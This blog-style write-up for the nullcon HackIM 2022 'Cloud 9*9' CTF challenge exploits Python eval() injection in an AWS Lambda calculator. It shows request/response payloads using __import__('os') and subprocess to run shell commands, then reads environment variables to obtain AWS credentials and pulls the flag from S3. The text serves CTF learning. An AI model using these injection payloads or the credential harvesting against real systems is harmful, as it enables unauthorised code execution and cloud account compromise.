 ```yaml
---
layout: single
sitemap: true
title: "nullcon HackIM CTF 2022 - Cloud 9*9 Challenge Writeup"
categories:
  - Blog
tags:
  - CTF
  - nullcon
  - HackIM
  - cloud
  - python
  - AWS
---
```


[nullcon HackIM CTF](https://ctf.nullcon.net/) had cloud challenge category this year. Cloud 9*9 was one of the challenges in that category. This post describes my thought process and how I solved it.


The challenge description was as below provided with the challenge IP address.

![Cloud 9*9 challenge](/assets/postimages/4/ss0.png)

Two things I assumed from the description is that it is a serverless calculator hosted onto a cloud service provider. First thing I did was to check IP information for the provided IP address. 

[https://ipinfo.io/3.64.214.139](https://ipinfo.io/3.64.214.139) 

From above I can understand that the challenge service is hosted on AWS EU region. Now, I went to look the challenge service page. It looked like below where we can do normal calculator operations. 

![Cloud 9*9](/assets/postimages/4/ss6.png)

Next, I took this request in our very own Burp suite proxy to evaluate it further. I added "*" as input to check how server responds to special characters. Below was the response.
```JSON

HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sun, 14 Aug 2022 07:40:55 GMT
Content-Type: application/json
Content-Length: 267
Connection: close

{"errorMessage":"unexpected EOF while parsing (<string>, line 1)","errorType":"SyntaxError","requestId":"809fbfb0-e311-41cb-971c-32ad50e71be1","stackTrace":["  File \"/var/task/lambda-function.py\", line 5, in lambda_handler\n    'result' : eval(event['input'])\n"]}
```

I can guess a few things by analysing the response from server that backend is running on Python Werkzeug. The calculation was being done by lambda-function.py file and it was using eval() function. 

After googling for some time on how to exploit eval( ) in python. I was able to figure out how to import libraries in python. 

```JSON
Request
{"input":"__import__('os').getcwd()"}

Response
{"result":"/var/task"}
```

Now, our goal is to get code execution on system to find flag on it. So I tried below payload using the python os library. 

```JSON
Request
{"input":"__import__('os').system('id')"}

Response
{"result":0}
```

Seems like code was getting executed but we cannot see the output of the command instead it returned numeric values. Turns out it was linux status code for commands. Each successful command will return zero as output. But it's of no use if we cannot get output of the commands executed. 

After searching for some more time, I found that instead of os library we can also use subprocess library to spawn shell and execute commands. 

```JSON
Request
{"input":"__import__('subprocess').getoutput('ls')"}

Response 
{"result":"lambda-function.py"}
 ```
🎉 Awesome I was able to get shell command output using subprocess. Then I cat the file and got below output. 

```JSON
{"result":"import json\n\ndef lambda_handler(event, context): \n    return { \n        'result' : eval(event['input'])\n        #flag in nullcon-s3bucket-flag4 ......\n    }"}
```

As this is a cloud challenge the flag was on a AWS S3 Storage bucket. It was required to figure how we can read that file from the S3 bucket. After some searching in AWS docs I thought as this serverless calculator function is running on AWS it should use AWS credentials every time it executes. I tried to check environment variables on the server to find anything interesting. 

![Environment variables](/assets/postimages/4/ss1.png) 
 
 We are able to get AWS credentials. So it becomes easy to get the flag from S3 Bucket using AWS CLI. I followed this S3 bucket docs to fetch the flag. 

[https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html](https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html) 

![AWS creds](/assets/postimages/4/ss3.png)

I was able to use AWS CLI to fetch the flag file from the S3 Bucket. 

![Flag found](/assets/postimages/4/ss4.png)

Thanks to [ENOFLAG](https://enoflag.de) for organising this CTF and special thanks to [Sec-consult](https://sec-consult.com/) team for creating cloud challenges for the CTF 🙂

Happy Hacking until next time !!! 
